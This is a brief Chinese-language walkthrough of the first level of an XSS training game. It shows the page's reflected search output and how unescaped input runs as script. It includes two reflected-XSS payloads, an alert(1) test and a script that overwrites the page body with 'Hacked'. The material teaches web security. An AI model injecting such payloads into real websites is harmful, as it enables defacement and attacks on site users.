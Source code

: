 
那我們試試看輸入
`<script>alert(1)</script>`

---

喔喔喔喔喔喔喔 出來了
![](https://i.imgur.com/u6wey66.png)

---


我們觀察一下 
原本程式碼長這樣
```htmlmixed=


<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>

  <body id="level1">
    <img src="/static/logos/level1.png">
      <div>
Sorry, no results were found for <b>測試</b>. <a href='?'>Try again</a>.
    </div>
  </body>
</html>

```

---

他把我們輸入的文字放在這
```htmlmixed=
<b>測試</b>
```
我們塞入XSS他變成這樣
```htmlmixed=
<b><script>alert(1)</script></b>
```
就變成js執行了呢

---

那我們插入這個呢
```htmlmixed=
<script>document.getElementsByTagName('body')[0].innerHTML="Hacked"</script>
```

---
